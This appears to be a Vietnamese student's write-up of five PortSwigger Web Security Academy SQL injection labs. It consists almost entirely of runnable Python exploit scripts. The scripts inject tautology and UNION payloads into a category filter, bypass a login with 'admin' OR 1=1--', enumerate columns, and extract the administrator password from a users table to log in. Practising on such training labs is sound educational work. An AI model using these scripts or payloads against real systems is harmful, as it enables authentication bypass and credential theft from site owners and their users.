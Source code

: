 # Mục lục
- [Lab 1](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab 2](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-2-sql-injection-vulnerability-allowing-login-bypass)
- [Lab 3](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-3-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
- [Lab 4](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-4-sql-injection-union-attack-finding-a-column-containing-text)
- [Lab 5](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-5-sql-injection-union-attack-retrieving-data-from-other-tables)


# LAB 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```python
import requests
print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
target_url = f"{url}/filter?category=Gifts'+OR+1=1+--"

response = requests.get(target_url)
if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 2: SQL injection vulnerability allowing login bypass
- Em không có hiểu cái cách lấy CSRF nên e dùng chatGPT để làm cái đoạn đó ạ 🥲
```python
import requests
from bs4 import BeautifulSoup

url = input("Nhập URL: ").rstrip("/")
login_url = f"{url}/login"

session = requests.Session()
response = session.get(login_url)

if response.status_code != 200:
    print(f"Không thể truy cập {login_url}, mã lỗi: {response.status_code}")
    exit()

soup = BeautifulSoup(response.text, "html.parser")
csrf_token = soup.find("input", {"name": "csrf"})["value"]

data = {
    "csrf": csrf_token,
    "username": "admin' OR 1=1--",
    "password": "a"
}

response = session.post(login_url, data=data)
print(f"Request sent to: {login_url}")
if (response.status_code == 200):
    print("Login successful!")
else:
    print("Login failed!")
```

# LAB 3: SQL injection UNION attack, determining the number of columns returned by the query
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")


i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

null_values = ",+".join(["NULL"] * i)
union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"

print(f"Payload UNION: {union_url}")
response = requests.get(union_url)

if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 4: SQL injection UNION attack, finding a column containing text
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
print("Ví dụ: Giá trị được lab cung cấp: aNjdF")
value = input("Giá trị được lab cung cấp: ")

i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

for pos in range(i):
    test_values = ["NULL"] * i  
    test_values[pos] = f"'{value}'"  

    null_values = ",+".join(test_values)
    union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"
    
    print(f"Thử payload: {union_url}")
    response = requests.get(union_url)
    
    if response.status_code == 200:
        print("Successful")
        break 
```

# LAB 5: SQL injection UNION attack, retrieving data from other tables
```python
import requests
from bs4 import BeautifulSoup

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")

union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+username,+password+FROM+users--"

response = requests.get(union_url)

if response.status_code == 200:
    soup = BeautifulSoup(response.text, "html.parser")
    table_rows = soup.find_all("tr")

    password_found = None
    for row in table_rows:
        th = row.find("th")
        td = row.find("td")
        if th and td and th.text.strip() == "administrator":
            password_found = td.text.strip()
            break

    if password_found:
        print(f"Tìm thấy password của administrator: {password_found}")
    else:
        print("Không tìm thấy password của administrator.")
        exit()

login_url = f"{url}/login"
session = requests.Session()
response = session.get(login_url)

soup = BeautifulSoup(response.text, "html.parser")
csrf_token = soup.find("input", {"name": "csrf"})["value"]

data = {
    "csrf": csrf_token,
    "username": "administrator",
    "password": password_found
}

response = session.post(login_url, data=data)

if "Welcome" in response.text or response.status_code == 200:
    print("Thành công!")
```

